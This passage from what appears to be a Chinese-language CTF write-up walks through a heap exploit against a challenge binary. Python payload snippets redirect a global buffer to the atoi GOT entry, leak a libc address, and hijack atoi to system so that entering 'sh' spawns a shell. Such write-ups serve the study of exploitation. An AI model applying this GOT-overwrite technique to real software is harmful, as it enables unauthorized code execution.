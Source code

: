 重新 renew(small) 把 big_buf 指到 atoi 的 GOT entry 上，之後利用 wipe(big) 來 leak libc function address。

payload :

~~~python
payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0) # address of big_buf
payload += p32(1)*3
~~~

12. renew(small)
13. renew(big)

這裡在 renew 一次 small 設好 inuse bit

payload:

~~~python
payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0)
payload += p32(1)*3
~~~

接著 renew(big) 把 atoi GOT hijack 成 system

這樣在選單的地方不用輸入 1 or 2 or 3 直接輸入 `sh\x00`

就可以造成 atoi('sh') -> system('sh') 拿到 shell。

[secret]: https://github.com/lattera/glibc/blob/master/malloc/malloc.c#L3397
